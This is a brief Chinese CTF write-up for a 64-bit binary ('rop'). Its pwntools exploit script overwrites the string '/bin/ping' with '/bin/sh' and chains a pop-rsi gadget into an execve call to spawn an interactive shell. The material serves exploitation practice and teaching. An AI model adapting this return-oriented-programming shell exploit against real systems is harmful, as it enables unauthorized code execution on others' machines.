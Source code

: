 # midrop

rop是64位程序，execve()接受三个参数，path放在rdi，argv[]放在rsi，envp[]放在edx  

现在要使execve('/bin/sh', 0, 0)，  

payload1把原来的'/bin/ping'覆盖成'/bin/sh\0'（.data的写入处与'/bin/ping'相邻，且在原字符串的上面）  

payload2把\0弹到rsi作为第二参数，第三参数自然为0，无需操作。  

为避免影响rsi，把execve_addr设为函数的最后两个汇编指令。  

Exp:
```python
import pwn

pwn.context(arch='amd64', os='linux', log_level='debug')

p = pwn.process('./rop')
e = pwn.ELF('./rop')

execve_addr = pwn.p64(0x4006F6)     # lea mm_addr %edi ; call _execve

payload1 = b'A' * 16 + b'/bin/sh\x00'
p.sendlineafter(b'who are you?', payload1)

# ROPgadget --binary rop | grep 'pop'
pop_rsi_r15_addr = pwn.p64(0x400811)    # pop rsi ; pop r15 ; ret

payload2 = b'A' * 8 + b'B' * 8 + pop_rsi_r15_addr + pwn.p64(0) + pwn.p64(0) + execve_addr
p.sendlineafter(b'if you want to do?', payload2)

p.recv()
p.interactive()
```